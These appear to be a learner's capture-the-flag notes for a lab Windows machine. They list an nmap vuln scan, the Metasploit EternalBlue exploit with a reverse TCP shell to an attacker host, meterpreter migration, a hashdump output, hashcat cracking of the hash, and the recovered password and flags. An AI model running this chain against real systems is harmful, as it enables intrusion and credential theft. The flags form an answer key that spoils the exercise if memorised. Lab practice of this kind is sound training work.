

------------------------------------------------------------------------------------------------------
NMAP -script vuln

------------------------------------------------------------------------------------------------------
ms17-010 - smb exploit (eternal blue)
------------------------------------------------------------------------------------------------------
>msfconsole
>search ms17-010

> use exploit/windows/smb/ms17_010_eternalblue
> set RHOST 10.10.22.137
> set payload windows/x64/shell/reverse_tcp
> set LHOST 10.13.17.108
----------------------------------------------------------------------------------------------------------------------------------------------
UPGRADE SELL TO METERPRETER SESSION
>sessions -u 1
or
> use post/multi/manage/shell_to_meterpreter
> set session [session id]

-------------------------------------------------------------------------------------------------------------------------------------
Within meterpreter
>migrate 712

hashdump > results in user passwords hashs
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
---------------------------------------------------------------------------------------------------------------------------------------
Hashcat
> hashcat -m 1000 win1.txt /usr/share/wordlists/rockyou.txt
password >>>> alqfna22
flag 1 - - - flag{access_the_machine}
- - found in root
flag 2 - c:\Windows\System32\config
- - flag{access_the_machine}
Flag 3 - c:\Users\Jon\Documents\flag3.txt- - flag{admin_documents_can_be_valuable}